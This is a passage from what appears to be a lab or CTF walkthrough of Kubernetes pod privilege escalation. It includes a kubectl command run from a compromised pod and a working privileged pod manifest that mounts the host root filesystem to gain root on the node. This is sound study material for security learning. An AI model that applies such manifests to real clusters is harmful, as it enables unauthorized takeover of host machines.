 [This](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation#Pod1) part of the blog is what we're working with here. I'm not gonna go through the details, but I encourage you do your research on it.

To make it short, we are gonna use a malicious config file in `yaml` format, that creates a new pod, and mounts the host machine's image on that pod. In result, we have root access to the host machine via a pod.

We just need one thing and that's the name of the host machine file image name. We can obtain that by running the following command:

~~~
(remote) root@php-deploy-6d998f68b9-wlslz:/tmp# ./kubectl get node -o yaml
[...]
    images:
    - names:
      - docker.io/vulhub/php@sha256:5cbeb206dcda6c296bdc1e11f855073aa59dd68db8cfadb846a632727875a99a
      - docker.io/vulhub/php:8.1-backdoor
      sizeBytes: 98799069
[...]
~~~

The host image name is `docker.io/vulhub/php:8.1-backdoor`.

Now we are ready to exploit the service. [Here](https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml) you can find the original config file that we are going to use. Here's the config file after a little modification:

~~~yaml
apiVersion: v1
kind: Pod
metadata:
  name: pwned
  labels:
    app: pwn
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: pwned
    image: docker.io/vulhub/php:8.1-backdoor
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:
      path: /
~~~
